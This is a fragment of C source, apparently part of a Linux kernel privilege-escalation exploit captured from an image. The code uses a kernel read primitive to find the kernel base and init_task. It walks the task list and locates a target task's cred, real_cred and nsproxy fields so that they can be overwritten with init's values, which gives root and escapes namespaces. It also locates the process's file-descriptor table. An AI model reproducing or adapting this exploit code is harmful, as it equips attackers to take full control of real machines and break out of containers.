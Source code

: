 ```
    {
        err("Weird `error_entry` address: 0x%lx", error_entry);
    }

    // Set kernel base
    g_kern_base = error_entry - EE_OFF;
    info("Kernel base: 0x%lx", g_kern_base);

    // Read 8 bytes at that address and see if they match our signature
    uint64_t sig = read_8_at(g_kern_base);
    if (sig != KERNEL_SIGNATURE) 
    {
        err("Bad kernel signature: 0x%lx", sig);
    }

    // Set init_task
    g_init_task = g_kern_base + INIT_OFF;
    info("init_task @ 0x%lx", g_init_task);

    // Get the cred and nsproxy values
    g_cred_what = read_8_at(g_init_task + CRED_OFF);
    g_nsproxy_what = read_8_at(g_init_task + NSPROXY_OFF);

    if ((uint16_t)(g_cred_what >> 48) != 0xFFFF)
    {
        err("Weird init->cred value: 0x%lx", g_cred_what);
    }

    if ((uint16_t)(g_nsproxy_what >> 48) != 0xFFFF)
    {
        err("Weird init->nsproxy value: 0x%lx", g_nsproxy_what);
    }

    info("init cred address: 0x%lx", g_cred_what);
    info("init nsproxy address: 0x%lx", g_nsproxy_what);

    // Traverse the tasks list
    info("Traversing tasks linked list...");
    traverse_tasks();

    // Check to see if we succeeded
    if (!g_target_task) { err("Unable to find target task!"); }
    if (!g_our_task)    { err("Unable to find our task!"); }

    // We found the target task
    info("Found '%s' task @ 0x%lx", TARGET_TASK, g_target_task);
    info("Found '%s' task @ 0x%lx", OUR_TASK, g_our_task);

    // Set where gadgets
    g_cred_where = g_target_task + CRED_OFF;
    g_real_cred_where = g_target_task + REAL_CRED_OFF;
    g_nsproxy_where = g_target_task + NSPROXY_OFF;

    info("Target cred @ 0x%lx", g_cred_where);
    info("Target real_cred @ 0x%lx", g_real_cred_where);
    info("Target nsproxy @ 0x%lx", g_nsproxy_where);

    // Locate our file descriptor table
    g_files = g_our_task + FILES_OFF;
    g_fdt = read_8_at(g_files) + FDT_OFF;
    g_file_array = read_8_at(g_fdt) + FD_ARRAY_OFF;

    info("Our files @ 0x%lx", g_files);
```